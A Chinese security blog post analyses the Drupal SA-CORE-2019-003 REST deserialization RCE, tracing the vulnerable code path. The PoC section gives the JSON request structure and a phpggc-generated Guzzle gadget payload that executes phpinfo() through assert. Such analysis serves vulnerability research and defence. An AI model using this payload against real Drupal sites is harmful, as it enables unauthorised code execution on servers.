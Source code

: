```yaml
---
title: SA-CORE-2019-003 Drupal 内核远程代码执行漏洞分析
date: 2019-02-22 22:19:04
tags: [vul,sec,Drupal]
categories: Security
---
```


<script src="https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/pangu.js"></script>

### 0x01 概述

https://www.drupal.org/sa-core-2019-003

### 0x02 影响版本

- Drupal 8.6.x < 8.6.10
- Drupal 8.5.x < 8.5.11

影响条件

- 站点启用了`Drupal 8`核心`RESTful` Web服务`(rest)`模块，并允许`PATCH`或`POST`请求
- 站点启用了另一个`Web`服务模块，如`Drupal 8`中的`JSON:API`，或`Drupal 7`中的`Services`或`RESTful Web Services`

### 0x03 Web Services

Drupal框架的`RESTful` Web服务是为了更方便地访问Drupal站点的资源，支持常规的api请求，如GET / POST / PATCH / DELETE（出于一些原因不支持PUT ）

更详细的介绍可以参考 https://www.drupal.org/docs/8/core/modules/rest/overview

这个漏洞影响REST Web Services，所以首先在Drupal 8中开启rest服务

1. 下载[REST UI](https://www.drupal.org/project/restui)并解压至`core/modules/`目录
2. 在`admin-config-extend`勾选Web services中的`RESTful Web Services`和`REST UI`并安装，drupal会自动安装`Serialization` ，最好也安装`HAL`扩展，后续会使用`hal_json`数据格式

> HAL(Hypertext Application Language)是一个简单的API数据格式.它以xml和json为基础，让API变的可读性更高，并且具有discoverable的特性.当我们拿到HAL API返回的数据时，我们将会很容易根据当前数据查找与其相关的数据。在Micro Service API设计中，倾向于采用HAL这种类型的数据交换格式.
>
> HAL的出现，主要弥补plain json在API交互中的不足.让plain json更具有描述性，更具有导航性. 

3. 开启权限。在`admin-config-services-rest`开启匿名用户注册权限

   ![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222161612.png)

### 0x04 漏洞分析

根据补丁位置判断漏洞点在`unserialize`部分，因此这是一个反序列化漏洞。补丁主要修复了`core/modules/link/src/Plugin/Field/FieldType/LinkItem.php`和`core/lib/Drupal/Core/Field/Plugin/Field/FieldType/MapItem.php`两个文件，这两处应该都是能触发的，这里选择`LinkItem`进行分析

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222160822.png)

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222160859.png)

看一下`setValue()`方法

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222161825.png)

可以看到简单判断了`$values['options']`后直接进行了反序列化，没有进行数据合法性校验，如果能够控制`$values['options']`就能直接触发漏洞

接下来梳理一下数据传递过程，以及如何进入到`setValue()`方法

通过rest接口注册用户时，发送的数据包类似这个样子

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222164151.png)

(图片来源：https://areatype.com/blog/register-user-drupal-8-rest-api)

在进入`drupal`后，由`RequestHandler->handle()`方法处理请求，进入`deserialize()`方法，然后调用`$this->serializer->denormalize()`反序列化出相应的类，此时的`$unserialized`为`Serializer`类

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222171019.png)

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222171158.png)

随后调用`Serializer->denormalize()`方法，在该方法中首先通过`getDenormalizer()`获得一个匹配的`denormalizer`，才能进行后续的`denormalize()`操作，匹配的过程则是和当前类的`supportedInterfaceOrClass`变量比较，返回最终可以进行`denormalize()`操作的类

```php
if ($normalizer = $this->getDenormalizer($data, $type, $format, $context)) {
    return $normalizer->denormalize($data, $type, $format, $context);
}
```

此处跟入比较深，可以略过，总之返回匹配的类是`ContentEntityNormalizer`，跟进它的`denormalize()`方法

```php
$typed_data_ids = $this->getTypedDataIds($data['_links']['type'], $context);
$entity_type = $this->getEntityTypeDefinition($typed_data_ids['entity_type']);
```

这个方法中根据 `_links.type` 的值取出`typed data IDs`，`_links.type` 值即是`post json`部分的
`"type": {
      "href": "http://127.0.0.1/drupal-8.6.5/rest/type/user/user"
}`
      值，这个值决定了后面获取到的`Entity`实体，通过`getTypeInternalIds()`方法取出所有预定义的类型并返回相应的`URI`，然后才获取对应的实体类型定义

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190222173004.png)

接着会调用这个实体的`denormalizeFieldData()`方法，在`denormalizeFieldData()`中调用相应的`denormalize()`方法，最终调用到这个`field_item`的`setValue()`。因此为了触发到存在漏洞的`setValue()`，我们需要让`field_item`为`LinkItem`类或者`MapItem`类，这个赋值过程在获取到相应实体后的`getStorage()->create()`过程：

```php
$entity = $this->entityManager->getStorage($typed_data_ids['entity_type'])->create($values);
```

调用流程`create()->doCreate()->initFieldValues()`，此时的调用栈是这样的：

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190223102241.png)



现在的问题就是找到相应的`Entity`，在其中实体化了`LinkItem`类或`MapItem`类，通过查找，在`core/modules`中这样的类有两个，`Shortcut`和`MenuLinkContent`，这里选择`MenuLinkContent`来触发，此时的`_links.type`为`http://127.0.0.1/drupal-8.6.5/rest/type/menu_link_content/menu_link_conten`

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190223103404.png)

因此最后的数据包类似这个样子，注意`link`必须为数组

```
{
  "link": [
    {
      "options": payload
    }
  ],
  "_links": {
    "type": {
      "href": "http://127.0.0.1/drupal-8.6.5/rest/type/menu_link_content/menu_link_content"
    }
  }
}
```

发送数据包成功触发到`setValue()`

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190223103837.png)

接下来就是寻找内置的风险类了，进入`setValue()`后通过`unserialize()`执行代码。

### 0x05 PoC

在之前介绍`phpggc`工具的时候总结了`Drupal`中存在风险的三个类，分别可以导致远程代码执行、任意文件写入和任意文件删除，这三个类分别是

- `FnStream`
- `FileCookieJar`
- `WindowsPipes`

具体参考：[由phpggc理解php反序列化漏洞](https://kylingit.com/blog/由phpggc理解php反序列化漏洞/)

同样地，借助`phpggc`直接生成序列化数据：

```bash
root@localhost:/opt/phpggc# ./phpggc guzzle/rce1 assert 'phpinfo()' -j
"O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\u0000GuzzleHttp\\Psr7\\FnStream\u0000methods\";a:1:{s:5:\"close\";a:2:{i:0;O:23:\"GuzzleHttp\\HandlerStack\":3:{s:32:\"\u0000GuzzleHttp\\HandlerStack\u0000handler\";s:9:\"phpinfo()\";s:30:\"\u0000GuzzleHttp\\HandlerStack\u0000stack\";a:1:{i:0;a:1:{i:0;s:6:\"assert\";}}s:31:\"\u0000GuzzleHttp\\HandlerStack\u0000cached\";b:0;}i:1;s:7:\"resolve\";}}s:9:\"_fn_close\";a:2:{i:0;r:4;i:1;s:7:\"resolve\";}}"
```

发送payload

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190223111019.png)

**注意：**如果返回码为422且报下面这个错误，尝试在`/admin/config/development/performance`点击清除缓存

`{"message":"Type http:\/\/127.0.0.1\/drupal-8.6.5-1\/rest\/type\/shortcut\/default does not correspond to an entity on this site."}`

另外尝试用`PoC`脚本利用，每篇文章对应的`node id`利用一次就失效了，再次利用需要换一个`node id`，暂时没有研究为什么。

### 0x06 总结

这个漏洞触发点并不复杂，但是调用链相当深，利用条件则是开启了`REST Web services`，并且允许用户通过`rest api`注册，在一些功能比较齐全的站点或者方便插件调用时可能会开启，影响面减小了不少，但并不影响这依然是个非常巧妙的漏洞，也进一步说明了开发时考虑不周全的话，风险点就在那里，被利用只是时间问题。





<script>pangu.spacingPage();</script>